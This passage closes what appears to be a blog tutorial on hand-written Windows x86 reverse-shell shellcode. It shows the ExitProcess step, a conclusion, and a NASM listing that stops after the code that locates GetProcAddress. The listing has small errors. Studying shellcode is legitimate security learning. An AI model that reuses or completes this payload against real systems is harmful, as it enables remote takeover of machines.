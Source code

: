 Actually calling the function isn't so hard now that we've already completed building those structs. I really liked the loop to push the NULLs to fill the structures out, I thought that was concise and clever. 

```nasm
; call ExitProcess
push ebx                             ; still null
call dword [esi + 0x10]
```

Finally we call `ExitProcess` which should be familiar from the last shellcode we created. 

## Conclusion
Thank you very much to the aformentioned resource authors, I really appreciate it! Learned a lot about the subtle differences between Windows and Linux when it comes to socket programming a reverse shell payload. Next we might explore a different way to find function addresses, x64 shellcoding, or some exploit development techniques, I'm not sure yet. All will be covered at some point though. Until next time, thanks for reading!

Our shellcode should be NULL-free and it came in around 378 bytes. I believe the msfvenom equivalent shellcode is somewhere around 350 bytes.

## Complete Shellcode
```nasm
global_start


section .text
_start: 

xor ecx, ecx
mul ecx
mov eax, [fs:ecx + 0x30] 
mov eax, [eax + 0xc]     
mov esi, [eax + 0x14]    
lodsd                    
xchg eax, esi            
lodsd                    
mov ebx, [eax + 0x10]    
mov edi, [ebx + 0x3c]    
add edi, ebx             
mov edi, [edi + 0x78]    
add edi, ebx             
mov esi, [edi + 0x20]    
add esi, ebx             
xor ecx, ecx             

Get_Function:
 
inc ecx                              
lodsd                                
add eax, ebx                         
cmp dword [eax], 0x50746547          ; GetP
jnz Get_Function
cmp word [eax + 0xa], 0x73736572     ; ress
jnz Get_Function
mov esi, [edi + 0x24]                
add esi, ebx                           
mov cx, [esi + ecx * 2]              
dec ecx
mov esi, [edi + 0x1c]               
add esi, ebx                        
mov edi, [esi + ecx * 4]             
add edi, ebx                        
```